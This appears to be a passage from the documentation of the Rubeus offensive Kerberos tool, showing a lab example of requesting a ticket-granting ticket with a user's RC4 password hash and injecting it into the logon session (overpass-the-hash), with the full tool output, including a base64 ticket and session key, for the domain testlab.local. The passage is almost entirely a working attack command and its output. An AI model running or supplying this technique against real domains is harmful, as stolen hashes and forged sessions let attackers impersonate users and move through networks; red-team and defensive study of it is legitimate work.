 Requesting a ticket via RC4 hash for **dfm.a@testlab.local**, applying it to the current logon session:

    C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.4.1

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        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

    [*] Action: Import Ticket
    [+] Ticket successfully imported!

    [*] Action: Describe Ticket

    UserName              :  dfm.a
    UserRealm             :  TESTLAB.LOCAL
    ServiceName           :  krbtgt/testlab.local
    ServiceRealm          :  TESTLAB.LOCAL
    StartTime             :  2/25/2019 3:06:07 PM
    EndTime               :  2/25/2019 8:06:07 PM
    RenewTill             :  3/4/2019 3:06:07 PM
    Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType               :  rc4_hmac
    Base64(key)           :  +zY8adXi2NuvkAxl1ohUOA==

